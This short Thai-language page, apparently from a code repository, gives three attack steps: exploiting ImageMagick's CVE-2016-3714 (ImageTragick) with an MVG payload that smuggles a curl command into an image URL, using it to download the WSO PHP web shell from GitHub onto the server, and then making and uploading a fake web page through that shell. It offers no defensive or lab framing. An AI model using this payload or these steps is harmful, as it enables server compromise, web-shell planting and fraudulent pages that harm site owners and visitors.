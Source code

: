 ## ขั้นตอน

1.เจาะเว็บไซต์จากช่องโหว่ [CVE-2016-3714](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

ใช้โค้ด
```bash
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`curl https://raw.githubusercontent.com/tennc/webshell/master/php/wso/wso-4.2.5.php --output wso-4.2.5.php>/tmp/success`'
```

2. สร้างเว็บเพจปลอม <br>
3. อัพโหลดเว็บปลอม โดยใช้โปรแกรม `wso-4.2.5.php`  <br>
